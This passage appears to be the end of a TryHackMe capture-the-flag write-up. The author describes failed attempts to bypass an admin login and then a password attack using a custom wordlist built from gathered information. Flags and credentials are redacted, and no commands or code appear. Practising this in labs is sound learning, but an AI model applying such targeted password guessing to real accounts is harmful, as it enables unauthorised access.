The biggest problem was the administrator authentication. I initially spent a lot of time looking for ways to bypass it through cookies, API manipulation, HTTP methods, possible file uploads, and session manipulation. Most of those ideas went nowhere.

The important change was realizing that I already had enough information to attack the password itself by creating a custom dictionary/wordlist with all the information I had.

## Flags

Flags obtained during the challenge have been redacted from this write-up.

> TryHackMe flags and sensitive challenge credentials are intentionally omitted.
